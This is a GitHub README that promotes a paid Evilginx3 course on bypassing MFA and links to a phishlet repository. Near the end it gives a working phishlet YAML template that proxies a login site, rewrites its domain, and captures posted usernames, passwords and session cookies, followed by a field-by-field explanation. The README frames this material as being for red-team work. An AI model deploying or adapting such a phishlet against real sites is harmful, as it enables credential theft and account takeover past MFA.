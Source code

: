 

<img src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/bde083c3-551d-4c05-961d-8e493731a273" width="750" height="450">

# Updated Evilginx3 Phishlets
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.

# Education: Want to learn how to bypass MFA with Evilginx3?
## Download Evilginx Professional Masterclass on: www.SimplerHacking.com
![Screenshot (2498)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/e4dc9609-2676-43f1-bb49-2b8239a1c538)

[![Evilginx Pro Masterclass](https://img.shields.io/badge/Evilginx-Professional%20Masterclass-darkred?style=for-the-badge&logo=github)](https://www.simplerhacking.com/courses/evilginx-course)

## Use Code: GITHUB20 for a 20% off of the course!
### Become an Evilginx professional & learn how to bypass modern MFA with the latest version Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results. Get access to Phishlets not available on our public Github as well as tons of resources, templates & generators to aid your engagements.

### Course Previews:

![Evilginx Pro Course Preview](https://github.com/simplerhacking/Phishlet-Creator/assets/141525149/66bbf548-b340-4c91-8694-1f77209a5edb)

![Screenshot (2279)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/7a817e44-ce59-49f5-8197-540cead76c93)


https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/fa7dcbf0-13cb-4cfc-b7a8-f944d824b0c2

![evilginx3 new course 3](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/389cadcc-4fa3-4859-89e8-0ce95af23f65)


![Evilginx Course Preview K](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/8f01d447-91f2-40ad-81f6-ac05f7e7eb5e)

## Attend the Free Evilginx Modern Phishing Webinar: www.simplerhacking.com/courses/evilginx-webinar

Learn how attackers use Evilginx & other tools to bypass MFA & gain access to information. Learn how Modern Business Email Compromise (BEC), and Evilginx Man-in-the-Middle (MITM) attacks are done from an attacker's perspective.

## Why Enroll in the Course?
- **Afforable:** The price of the course is afforable for anyone interesting in learning about Evilginx & MITM Attacks.
- **Practical Application:** Through hands-on labs & real customizeable templates, We help you apply what you learn in real-world scenarios.
- **From Basics to Advanced:** This course offers a smooth learning curve, foundation before diving into advanced features of Evilginx3.
- **Custom Phishlets files & Resource Library:** Access private phishlet files, Q&A support & our archived resource library.
- **Join our Community:** Be part of a community of learners and professionals in the field of red teaming and cybersecurity.
- **Get Support & Assistance:** Get your questions & concerns answered. We are here to help.

## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
Send us an email to info@simplerhacking.com 

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.
